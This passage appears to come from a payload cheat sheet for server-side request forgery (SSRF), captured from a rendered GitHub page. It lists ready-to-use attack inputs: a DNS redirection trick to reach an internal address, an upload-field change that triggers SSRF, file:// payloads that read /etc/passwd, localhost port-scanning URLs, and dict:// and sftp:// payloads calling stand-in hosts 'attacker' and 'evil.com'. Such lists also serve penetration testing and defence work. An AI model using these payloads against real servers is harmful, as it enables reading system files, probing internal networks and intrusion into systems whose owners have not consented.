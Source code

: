 ### **Advanced exploit using a redirection**

```markup
Create a subdomain pointing to 192.168.0.1 with DNS A record.
Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

### **Advanced exploit using (type=url) while uploading a file/image**

```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### **Exploitation via URL Scheme**

### **File**

Allows an attacker to fetch the content of a file on the server

```
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### **HTTP**

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

### **Dict**

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### **SFTP**

A network protocol used for secure file transfer over secure shell

```
ssrf.php?url=sftp://evil.com:11111/
```
